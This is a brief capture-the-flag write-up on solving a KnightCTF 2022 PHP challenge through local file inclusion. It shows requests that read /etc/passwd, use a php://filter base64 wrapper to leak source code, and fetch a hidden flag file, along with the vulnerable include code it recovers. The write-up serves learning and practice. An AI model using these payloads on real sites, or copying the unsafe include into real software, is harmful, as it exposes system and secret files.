

<h1>My PHP Site ( KnightCTF 2022 )</h1>


Hey there its my first writeup.<br/><br/><br/><br/>
So follwoing the link of challenge we find ourself in a webpage, which contains:<br/><br/>

<br/><br/>
As you may already know php based websites are full of vulns.<br/><br/>
Getting a closer look at the link, we see the parametre: `/?file=index.html`<br/><br/>
Immediatly we think about an LFI ( Local File Inclusion ).<br/><br/>
Let's try getting something with it:<br/><br/>
`/?file=/etc/passwd`<br/><br/>
YEP, we got an LFI, nothing to find on the /etc/passwd though.<br/><br/>
Let's try getting the source code:<br/><br/>
`/?file=index.php`<br/><br/>
We get some kind of error<br/><br/>

hmmm I wonder why, most likely due to the large size of the index.php file....let's use a php filter, the base64 one for example.<br/><br/>
`/?file=php://filter/convert.base64-encode/resource=index.php`<br/><br/>
We got the source code:<br/><br/>
```PD9waHAKCmlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKXsKICAgIGlmICgkX0dFVFsnZmlsZSddID09ICJpbmRleC5waHAiKSB7CiAgICAgICAgZWNobyAiPGgxPkVSUk9SISE8L2gxPiI7CiAgICAgICAgZGllKCk7CiAgICB9ZWxzZXsKICAgICAgICBpbmNsdWRlICRfR0VUWydmaWxlJ107CiAgICB9Cgp9ZWxzZXsKICAgIGVjaG8gIjxoMT5Zb3UgYXJlIG1pc3NpbmcgdGhlIGZpbGUgcGFyYW1ldGVyPC9oMT4iOwoKICAgICNub3RlIDotIHNlY3JldCBsb2NhdGlvbiAvaG9tZS90YXJlcS9zM2NyRXRfZmw0OS50eHQKfQoKPz4KCjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI```<br/><br/>
Let's decode it from base64.<br/><br/>
`base64 -d index`<br/><br/>
We get the php source code.<br/><br/>
```<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>
```
Straight to the flag!<br/><br/>
`/?file=s3crEt_fl49.txt`<br/><br/>
Bingo<br/><br/>
<br/><br/>

